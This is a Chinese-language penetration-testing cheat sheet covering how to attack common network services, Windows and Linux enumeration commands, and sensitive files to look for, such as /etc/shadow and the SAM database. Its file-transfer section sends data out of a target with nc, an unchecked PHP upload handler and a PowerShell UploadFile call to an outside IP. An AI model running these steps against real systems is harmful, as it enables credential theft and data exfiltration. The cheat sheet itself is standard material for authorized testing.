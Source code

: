 <h1 align="center">常见服务利用</h1>

FTP默认端口21

1.  匿名访问
2. 弱凭证
3. 包含敏感文件
4. 可写入文件
5. CVE(RCE，目录遍历等)

SSH默认端口22

1. 弱凭证
2. 私钥泄露
3. OpenSSL漏洞，PRNG

SMTP默认端口25

1. 内部钓鱼，枚举用户

DNS默认UDP53，也支持TCP53

1. 区域传输
2. 查询记录
3. DNS记录注入（AD环境）

HTTP&HTTPS

1. 子域名，虚拟主机枚举
2. 源代码注释
3. robots.txt&sitemap
4. 报错信息
5. 框架，中间件，应用的CVE

POP3&IMAP

1. 获取凭证后，读取信息

SMB on Linux

1. 空会话访问
2. 可读目录包含敏感信息
3. 可写目录
4. CVE漏洞
5. 挂载

SMB on Windows

1. 域用户枚举
2. 域信息枚举

SNMP默认端口UDP61

1. Public String
2. 弱口令和read write string
3. 主机信息提取

LDAP默认端口389

1. 空会话访问
2. 域信息枚举

NFS默认端口2049

1. 可写目录
2. 包含敏感文件

RDP默认端口3389

1. CVE漏洞
2. 主机与域信息提取

VNC默认端口5900或5901

1. 非认证访问，弱口令
2. CVE

## 1. 基本命令

### 1. Windows

1. 系统信息：`systeminfo`
2. 网络信息：`ipconfig，netstat`
3. 账户信息：`net user (/domain)`
4. 群组信息：`net group (/domain)`
5. 任务与进程：`tasklist`

查找Windows上administrator用户的进程：`get-process -includeusername | findstr administrator`（对大小写敏感）

### 2. Linux

1. 系统信息：`uname -an`
2. 网络信息：`ip a，netstat`
3. 账户信息：`id，whoami`
4. 群组信息：`id`
5. 任务与进程：ps aux`

查找Linux上root用户的进程：`ps aux | grep root`

### 3. Windows重要文件

1. 用户目录(桌面、文档、根目录、SSH)
2. WEB应用目录(源代码、配置文件)
3. 服务目录(自定义SMB共享、FTP、tomcat等)
4. program files以及x86版本的目录
5. c:\下的非默认目录
6. SAM数据库文件

### 4. Linux重要文件

1. /etc/passwd
2. /etc/shadow
3. /etc/crontab
4. web应用目录(配置文件、源代码)
5. 常见服务的配置文件(Apache2、FTP、SSH、SMTP)
6. 用户目录(SSH、history、profile、非默认文件等)

### 5. 文件传输

1. SCP传输

   1. 本地传输到远程：`scp file user@host:~/`
   2. 远程传输到本地：`scp user@host:home/user/file ~/`

2. NC传输(需要目标主机带NC)

   1. 接收端：`nc -nvlp [port] > file`
   2. 发送端：`nc -w 3 [ip][port] < file`

3. 搭建临时SMB Server：`impacket-smbserver samba`

4. 搭建临时Http server：`python3 -m  http.server [port]`

5. 搭建带有上传功能的http服务器
   ```php
   <?php
   $uploaddir='C:/phpstudy/PHPTutorial/WWW/uploads/';
   $uploadfile=$uploaddir.$_FILES['file']['name'];
   move_uploaded_file($_FILES['file']['tmp_name'],$uploadfile)
   ?>
   ```

   ```powershell
   (New-Object System.Net.WebClient).UploadFile('http://172.20.10.6/upload.php','.\Desktop\information.txt')
   ```

6. 编码传输：适用于体积不大的二进制文件
   ```bash
   #编码
   base64 [file] -w 0
   #解码
   echo '[encode]' | base64 -d >file
   ```

   ```powershell
   #解码
   [System.IO.File]::WriteAllBytes(".\Desktop\information.txt",[System.Convert]::FromBase64String("[encoded]"))
   ```

7. 

 















